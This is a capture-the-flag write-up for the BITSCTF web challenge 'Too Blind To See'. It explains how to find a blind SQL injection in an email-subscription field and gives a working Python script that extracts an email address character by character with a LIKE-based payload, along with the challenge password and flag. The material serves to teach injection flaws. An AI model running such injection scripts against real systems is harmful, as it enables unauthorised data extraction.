

## Too Blind To See
## Category : Web 


## Description
Mogambro, our rookie intern, just stepped foot into the prestigious Software Firm. His big moment, the first project review, is knocking at the door like a pesky neighbor. But wait! Somewhere in his app lurks a secret which the admins are not aware of, hidden behind the password 'fluffybutterfly'. Can you crack the code and rescue Mogambro from this password puzzle? The clock is ticking!

## Link
http://20.244.82.82:7000/

## Solution


The challenge intended to test the knowledge of the participants of sql injection. The webpage is that of a simple e commerce website. Once you click on the link you can see a login option on the home page 


You can see that there are two login options, one for the admin and other for regular users. As mentioned in the description that the admins are not aware of the secret hidden behind the password `fluffybutterfly` one can conclude that the flag is not in the admin login (you would get a fake flag if you try sql injection in the admin login ;)). So we now know that the flag is hidden behind the regular user login.Since we have the password we only need to get the email address somehow. 





Going back to the home page. You can see that there is a bar in the footer that asks the user to subscribe.This bar asks you your email. When you enter your email you either get a message that the email exists or it does not exist. This is a hint that the email is vulnerable to boolean based sql injection or blind sqli.


Using the following python script you can get the email address of the user. 
```python 
import requests


url = "http://20.244.82.82:7000/final-destination"


charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@.'


email = ''


while True:
    for char in charset:
       
        payload = f"' OR email LIKE '{email}{char}%'--"
        
       
        data = {
            'email': payload,
            'password': 'fluffybutterfly' 
        }
        
        
        response = requests.post(url, data=data)
        
        
        if "Email exists" in response.text:
            email += char
            print("Discovered email:", email)
            break
    else:
        break

print("Enumeration complete. Discovered email:", email)
```


Once you have the email you just put it in the login page and the password `fluffybutterfly` and you get the flag.


The aim of this challenge was to make the user aware that even the most uncommon places can be vulnerable to sql injection. With the advent of advanced tools such bugs are easier to spot but one should always be aware of the basics.


## Flag
`BITSCTF{5UB5Cr183r5_4r3_M0r3_7HAN_JU5T_C0N5UM3r5}`


## Author
[@DarthLazius](https://github.com/darthlazius)

